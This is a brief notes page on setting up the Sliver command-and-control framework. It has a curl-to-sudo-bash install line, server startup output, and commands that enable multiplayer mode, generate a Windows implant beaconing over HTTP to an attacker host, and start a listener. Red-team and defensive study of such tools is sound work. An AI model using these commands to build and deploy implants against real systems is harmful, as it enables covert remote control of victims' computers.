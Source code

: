 > https://sliver.sh/docs?name=HTTPS+C2

> https://sliver.sh/docs?name=Getting+Started

> https://sliver.sh/docs?name=Getting+Started

### Installation

```console
$ curl https://sliver.sh/install | sudo bash
```

### Quick Start

Download the latest `sliver-server` binary and execute it.

> https://github.com/BishopFox/sliver/releases

```console
$ ./sliver-server_linux 

Sliver  Copyright (C) 2022  Bishop Fox
This program comes with ABSOLUTELY NO WARRANTY; for details type 'licenses'.
This is free software, and you are welcome to redistribute it
under certain conditions; type 'licenses' for details.

Unpacking assets ...
[*] Loaded 20 aliases from disk
[*] Loaded 104 extension(s) from disk

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain evolve
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options
```

```console
[server] sliver > multiplayer

[*] Multiplayer mode enabled!
```

```console
[server] sliver > generate --http <LHOST> --os windows --arch amd64 --format exe --save /PATH/TO/FOLDER/
```

```console
[server] sliver > http
```
